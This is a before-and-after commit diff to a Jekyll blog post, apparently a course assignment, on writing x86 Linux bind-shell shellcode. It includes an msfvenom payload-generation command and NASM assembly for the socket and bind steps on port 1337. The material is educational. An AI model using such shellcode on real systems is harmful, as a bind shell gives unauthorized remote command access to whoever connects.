

Before and after one commit to Minfanger101/sm00v.github.io, a Jekyll site: the page built from _posts/2019-10-19-assignment_1.md, in a window 1280 px wide and 1400 px high, scrolled down 4081 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
blog update

````diff
--- a/_posts/2019-10-19-assignment_1.md
+++ b/_posts/2019-10-19-assignment_1.md
@@ -16,7 +16,7 @@ Create a Shell_Bind_TCP shellcode that:
 
 A bind shell is a type of shell in which the system on which the code is run binds a TCP socket that is designated to listen for incoming connections to a specified port and IP address. When a bind shell is used, the system on which the bind shell is executed acts as the listener. When a connection is accepted on the bound and listening socket on the designated port and IP address, a shell will be spawned on the system on which the code is run.
 
-While analyzing shell_bind_tcp shellcode produced by msfvenom, it appears that a total of six syscalls are executed in sequential order. The order goes: `socket` : `bind` : `listen` : `accept` : `dup2` : `execve`.
+While analyzing shell_bind_tcp shellcode produced by msfvenom, it appears that a total of six syscalls are executed in sequential order. The order goes `socket` : `bind` : `listen` : `accept` : `dup2` : `execve`.
 
 We can analyze unistd_32.h to grab our syscall identifiers which give us the decimal syscall number which
 we will translate to hexidecimal in each code segment:
@@ -35,7 +35,8 @@ egrep "_socket |_accept |_bind |_listen |_accept4 |_dup2 |_execve " unistd_32.h
 Each serve a purpose in creating our bind shell.
 
 ### Referencing MSF Goodies
-```msfvenom -p linux/x86/shell_bind_tcp -f raw| ndisasm -u -``` produces a bind shell payload the size of 78 bytes:
+```msfvenom -p linux/x86/shell_bind_tcp -f raw| ndisasm -u -``` produces a bind shell payload the size of 78 bytes for
+us to compare our generated shellcode to:
 
 ```nasm
 xor ebx,ebx
@@ -101,7 +102,7 @@ xor ecx, ecx	;
 xor edx, edx	;
 xor edi, edi	;
 mul cx		; ax = ax * cx (0)
-
+;
 ; int socket(int domain, int type, int protocol) //
 ; syscall number: 359 (0x167)
 ;
@@ -132,35 +132,24 @@ Now that we have created a socket, it is time to bind to a given port.
 ;syscall number: 361 (0x169)
 ;Argument Values:
 ;sockfd = value in eax returned by socket()
+;the structure for sockaddr_in per 'man 7 ip' looks like:
 ;*addr = memory address of structure containing:
 ;  - sin_family: 0x0002 (AF_INET/IPv4)
 ;  - sin_port: 0x0539 (1337)
 ;  - sin_addr.s_addr: 0x00000000 (0.0.0.0)
 ;addrlen = 0x10 (16/sizeof(sockaddr_in))
-
+;
 mov esi, eax	 ; store sockfd in esi for later use
 push esi	 ; store sockfd on stack
 
-mov eax, 0x169   ; bind syscall?
-pop ebx 	 ; 0x169(sockfd[3], ) pop sockfd off stack into ebx
-push edi	 ; push 0x00000000 (0.0.0.0) sin.addr[last arg] to stack
-push word 0x0539 ; push port 1337 to stack
-push word 0x0002 ; push AF_INET/IPV4 [2] to stack
+mov eax, 0x169   ; bind syscall
+pop ebx 	 ; pop sockfd off stack into ebx
+push edi	 ; push 0x00000000 (0.0.0.0) / sin.addr [last arg] to stack
+push word 0x0539 ; push port 1337 to stack / sin_port
+push word 0x0002 ; push AF_INET/IPV4 [2] to stack / sin_family
 mov ecx, esp	 ; mov pointer of stack to ecx
 mov edx, 0x10	 ; mov 16 bit address length to edx
 int 0x80	 ; execute interrupt
-
-;the structure for sockaddr_in per 'man 7 ip' looks like:
-;struct sockaddr_in {
-;  sa_family_t    sin_family; /* address family: AF_INET */
-;  in_port_t      sin_port;   /* port in network byte order */
-;  struct in_addr sin_addr;   /* internet address */
-;  };
-
-push edi	 ; sin_addr; 0x0 ip address 0.0.0.0; the value a is interpreted as a 32 bit value per 'man inet_addr'
-push word 0x3905 ; sin_port=1337
-push 0x2	 ; sin_family=AF_INET
-mov ecx, esp	 ; save pointer to sockaddr_in struct in ecx
 ```
 
 ### Listen
````
Also changed, not shown: other parts of _posts/2019-10-19-assignment_1.md (+2 -3 lines).
